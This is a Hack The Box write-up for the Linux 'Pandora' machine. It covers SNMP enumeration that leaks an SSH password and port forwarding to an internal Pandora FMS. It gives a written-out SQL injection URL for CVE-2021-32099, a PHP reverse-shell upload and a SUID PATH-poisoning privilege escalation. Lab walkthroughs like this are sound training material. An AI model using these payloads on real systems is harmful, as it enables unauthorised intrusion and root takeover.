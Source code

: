 ```yaml
---
title: "Pandora Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/pandora/20220120210059.png"
tags: ["Hackthebox", "snmp", "port-forwarding", "Path-Poisoning"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-05-21T00:51:12+02:00
toc: true
draft: false
---
```


In This Box we are going to enumerate the snmp port which will show user daniel with his password as a string in the output , we are going to login with ssh to him and will see there is another user matt which has the user.txt , after some enumeration we will see there is pandora fms running internally with user matt , we will port forward to exploit the vulnerable service then we will abuse a path poisoning in a custom binary for the root access

<!--more-->

# Scanning :

initial scan :

```bash
nmap -sV -A -T 4 $IP -oN nmap/intial.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

And i have learned the lesson from previous machines so will scan udp as well just in case

```bash
sudo nmap -sV -sU  10.10.11.136

PORT      STATE    SERVICE VERSION
161/udp   open     snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
17219/udp filtered chipper
17989/udp filtered unknown
46532/udp filtered unknown
```

# Enumeration :

- port 80 : the web page :

![error](/assets/images/pandora/20220120195335.png)

there is only this form where we can send data , parameters are :

```cmd
fullName=ADam&email=adma@testet.com&phone=a&message=a
```

testing them for sqli , ssti and more found out this is just a rabbit Hole :'')

- we have found in the udp scan **snmp** is open so let's enumerate it , trying to enumerate with the community string "public" it works and we got results :

```bash
snmpwalk -c public -v1 10.10.11.136 > snmpwalk.out
```

you can query about one thing with `snmpwalk` But i want to see all the data , finally will see this in the output

```bash
iso.3.6.1.2.1.25.4.2.1.5.3068 = STRING: "-u daniel -p HotelBabylon23"
```

so we have a potential username and a password , we can try ssh with it :

```bash
ssh daniel@10.10.11.136
```

# Foothold :

i have logged in with `daniel` However user `matt` is the one contains the `user.txt` and he only can read it

we need to escalate to `matt` then `root`

![error](/assets/images/pandora/20220521124027.png)

after a lot of enumeration we will see :

![error](/assets/images/pandora/20220521124108.png)

the web page we have seen above is for the `html` But what about `pandora` ?

![error](/assets/images/pandora/20220521112241.png)

and we will see it is owned by the user `matt` which we are targeting.

![error](/assets/images/pandora/20220521123919.png)

so it seems we need to do **Port forwarding** to interact with this page at the Browser.

```bash
# @ your side
sudo ssh -N -L 0.0.0.0:9999:127.0.0.1:80 daniel@10.10.11.136
```

that will let us see this web page at `http://127.0.0.1:9999`

![error](/assets/images/pandora/20220120200414.png)

and we can see the version at the bottom of the page : **`v7.0NG.742_FIX_PERL2020`**

searching for Vulnerabilities for this version will find **`CVE-2021-32099`** which is SQL injection in the session_id , and the payload is [here](https://github.com/ibnuuby/CVE-2021-32099) and it is explained in the blog [here](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

```bash
http://127.0.0.1:9999/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```

all we need to do is to go back to **`http://127.0.0.1:9999/pandora_console/`**
and we will have admin access as the admin cookie has been added

![error](/assets/images/pandora/20220120200737.png)

Hence the site works with **PHP** we can know that from **wappalayzer** extension, so we need to upload a php reverse shell .

It is located at `/usr/share/webshells/php/php-reverse-shell.php` in Linux or you can download it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) By watching [here](https://www.youtube.com/watch?v=KX_jZsdgsJE&ab_channel=k4m1ll0-hackingchannel) we need to zip it then we can execute it at **`/pandora_console/extensions/shell.php`**

upload it at

```bash
admin tools > extensions manager > extension uploader
```

Then set your listener and will get the shell after execute it at
`/pandora_console/extensions/shell.php`

![error](/assets/images/pandora/20220120204254.png)

Once we are in we can generate ssh keys to get a stable shell

```bash
kali@kali:~$ ssh-keygen -f pandora
```

- normally we 'd use

```bash
ssh-copy-id -i pandora.pub matt@10.10.11.136
```

But hence we don't know matt's password , we would copy our key manually and add it to `authorized_keys` at matt's side

now copy `pandora.pub` into `authorized_keys` at the target machine , you can connect now:

```bash
kali@kali:~$  ssh matt@10.10.11.136 -i pandora
```

![error](/assets/images/pandora/20220521120958.png)

# Privilege escalation

Searching for SUID binaries found :

![error](/assets/images/pandora/20220521121149.png)

The `/usr/bin/pandora_backup` seems odd , we can explore it with **strings** but it is not installed on the box , we can move it to our side and explore it or Just try `strace` first

```bash
strace /usr/bin/pandora_backup
```

we can see in the output :

```bash
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
```

it seems it uses `tar` command without providing Full path so that may let us do **Path Poisoning** .

```bash
echo "cp /bin/bash /tmp/bash ; chmod +s /tmp/bash" > tar
chmod 777 tar
export PATH=.:$PATH
```

![error](/assets/images/pandora/20220521121710.png)

### pwned
